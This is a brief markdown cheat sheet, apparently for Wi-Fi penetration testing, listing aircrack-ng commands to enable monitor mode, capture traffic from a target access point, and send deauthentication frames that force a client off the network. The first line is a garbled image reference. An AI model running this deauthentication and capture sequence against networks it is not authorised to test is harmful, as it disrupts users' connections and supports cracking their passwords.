 # Detect wlans

```bash
airmon-ng
```

Start monitor mode

```bash
airmon-ng start wlan1
ifconfig
airodump-ng wlan1mon
airodump-ng -w /path/to/save/files/ -c 1 --bssid WL:AN:MAC wlan1mon
aireplay-ng -0 10 -a WLAN:MAC -c DEVICE:MAC wlan1mon
```

Stop monitor mode

```bash
airmon-ng stop wlan1mon
```

